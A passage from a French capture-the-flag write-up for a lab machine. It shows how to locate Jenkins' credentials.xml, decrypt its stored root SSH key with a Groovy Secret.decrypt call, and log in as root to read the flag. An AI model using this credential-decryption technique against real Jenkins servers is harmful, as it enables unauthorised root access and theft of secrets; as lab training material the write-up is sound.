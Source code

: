 Ça y est, on peut commencer à explorer ce qu'on aurait pu rater avec le LFI.

En listant le contenu de `/var/jenkins_home/`, on tombe directement sur `credentials.xml`.
```xml
...
<username>root</username>
...
<privateKeySource class="com.cloudbees.jenkins.plugins.sshcredentials.impl.BasicSSHUserPrivateKey$DirectEntryPrivateKeySource">
<privateKey>{AQAAABAAAAowLrfCrZx9baWliwrtCiwCyztaYVoYdkP...
```
{: file='/var/jenkins_home/credentials.xml'}

C'est exactement ce qu'on cherche ! C'est visiblement une clé privé SSH pour l'utilisateur "root".
Avec une rapide recherche, on trouve comment déchiffrer la clé.

```groovy
println hudson.util.Secret.decrypt("{AQAAABAAAAowLrfCr...}")

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZ...
```

En enfin on peut utiliser cette clé pour se connecter en SSH à l'utilisateur root, et récupérer le dernier flag !

```shell
$ chmod 700 ssh_key
$ ssh -i ssh_key root@builder.htb
# cat root.txt
3ceb1775...
```

| **Merci d'avoir lu ! N'hésitez pas à me contacter pour la moindre question ou requête !**

